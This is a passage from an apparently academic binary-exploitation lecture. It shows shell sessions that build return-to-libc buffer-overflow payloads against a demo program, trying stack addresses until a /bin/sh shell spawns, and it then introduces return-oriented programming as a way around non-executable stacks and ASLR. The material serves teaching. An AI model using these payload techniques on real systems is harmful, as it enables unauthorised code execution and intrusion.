 ``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x60\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBB`???
Segmentation fault (core dumped)
```

That didn't work --- I think that `system()` messed up our string in
some way, but now we are in the range. Let's keep trying addresses up
from there:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x60\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBB`???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x65\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBe???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x6a\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBj???
Segmentation fault (core dumped)
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x70\xf6\xff\xbf'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???BBBBp???
sh: 1: AAAAAAAAAAAAAAAA: not found
Segmentation fault (core dumped)
```

Now, we've got something cooking. System is trying to execute some input
we provided. Let's just make the rest of the string "/bin/sh;" and maybe
we'll get lucky:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;/bin/sh;/bin/sh;/bin/sh;/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7' + 'BBBB' + '\x70\xf6\xff\xbf'"`
/bin/sh;/bin/sh;/bin/sh;/bin/sh;/bin/sh;AAAA???BBBBp???
$ 
```

So while we didn't get the first one, we eventually found a "/bin/sh".

# Return Oriented Programming: Function Chaining Gadgets

Return Oriented Programming (ROP) is the process of using small
sequences of code (or gadgets) that are embedded in other code. The
"return" portion of the code comes from the fact that these small pieces
of code, or gadgets, all end with a return statement. The concept is
that while there may be protections in place to stop you from loading
shell code, we can leverage the code already within our target program.

An additional benefit for ROP, similar to the benefit from
return-2-libc, is that a ROP chain is functional even when the
stack memory is labeled non-executable and there is memory address
randomization. The reason is that we are only going to use already
existing code to build an exploit, namely code that is in the .text
segment, so it is already labeled executable. Moreover, the .text
segment isn't randomized with ASLR, so it will *always* be consistently
in the same place. This means this style of attack is really powerful
and consistent.
